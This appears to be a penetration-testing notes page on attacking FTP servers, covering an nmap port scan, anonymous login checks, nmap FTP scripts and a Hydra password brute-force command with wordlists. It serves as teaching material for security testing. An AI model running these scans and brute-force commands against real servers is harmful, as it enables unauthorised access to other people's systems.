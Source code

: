 # Exploiting FTP
> FTP is File Transfer Protocol. It uses TCP port 21. FTP is used to facilitate file sharing between a server and its clients. FTP is also frequently used as a means of transferring files to and from the directory of a web server.

## Contents
- [Intro](#)
- [Exploit: Brute Force](#)
  - [Nmap: Scan the Target](#)
  - [Connect to the FTP Server](#)
  - [NSE: FTP Scripts](#)
  - [Hydra: Brute-Force Attack](#)
  - [Login](#)
 
## Intro

- FTP authentication requires a username and password combo.
- Possible Misconfiguration Vulnerability: Anonymous login 
- Most often, unless you find an vulnerable FTP server, you're pretty much left with brute-forcing a password.


## Exploit: Brute Force

### Nmap: Scan the Target
- Start with a scan of the target system:
```
nmap -sS -sV -sC -O -p- [target ip]
# of if you know port 21 is open, scan it only
```

### Connect to the FTP Server
```
ftp [target ip]
```
- When prompted for the username: anonymous
- When prompted for the password: ENTER
- If it fails then anonymous logins are not allowed.

### NSE: FTP Scripts
- Find an nmap script for ftp:
```
ls -l /usr/share/nmap/scripts | grep ftp-*
```
- The `ftp-anon` script will check for anonymous logins. 

### [Hydra](../../hydra.md): Brute-Force Attack
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/.../unix_passwords.txt [ip] -t 4 ftp
```
- `-L` login names to use
- `-P` passwords to use
- `-t` threads, lower to avoid DoSing the target

### Login
- If Hydra gave you some results, try to login to the target system.
